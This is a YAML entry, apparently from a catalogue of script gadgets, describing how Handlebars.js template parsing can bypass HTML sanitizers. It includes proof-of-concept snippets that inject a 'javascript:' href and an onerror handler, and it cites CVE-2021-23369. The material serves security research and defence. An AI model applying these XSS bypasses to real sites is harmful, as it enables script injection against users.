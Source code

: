 ```yaml
---
description: Handlebars provides the power necessary to let you build semantic templates effectively with no frustration. Handlebars is largely compatible with Mustache templates. In most cases it is possible to swap out Mustache with Handlebars and continue using your current templates.
github: handlebars-lang/handlebars.js
gadgets:
  Latest:
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - a-tag
      - href-attr
      - any-attr
      - func-call-parameter
    pocs:
      - description: |
          In the case of sanitized input, it may be possible to exploit the null replacement behavior in [Handlebars.js](https://github.com/handlebars-lang/handlebars.js) templates to bypass the sanitizer when an invalid template is used.

          *For this to work, quotes must be used in the template because [Handlebars.js](https://github.com/handlebars-lang/handlebars.js) template engine waits for: `ID`, `STRING`, `NUMBER`, `BOOLEAN`, `UNDEFINED`, `NULL` or `DATA`.*
        code: |
          <!-- user input -->
          <div id="template"><a href="java{{'a" x="'}}script:alert(document.domain)">Click Me</a></div>

          <script src="https://cdn.jsdelivr.net/npm/handlebars@latest/dist/handlebars.min.js"></script>
          <script>
            const source = document.getElementById("template").innerHTML;
            const template = Handlebars.compile(source);
            const context = { name: "<h1>hello</h1>" };
            document.getElementById("template").innerHTML = template(context);
          </script>
      - description: The same behavior can be abused in case of 2 **raw** injection points.
        code: |
          <div id="template">
            <img src="[current-location]/<!-- user input 1 -->{{'">
            <div>Random Text</div>
            <!-- user input 2 -->'}}" onerror="alert(document.domain)">
            <div>Random Text</div>
          </div>

          <script src="https://cdn.jsdelivr.net/npm/handlebars@latest/dist/handlebars.min.js"></script>
          <script>
            const source = document.getElementById("template").innerHTML;
            const template = Handlebars.compile(source);
            const context = { name: "<h1>hello</h1>" };
            document.getElementById("template").innerHTML = template(context);
          </script>
  ≤4.7.6:
    cve: CVE-2021-23369
    authors:
      - Francois Lajeunesse-Robert
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
```
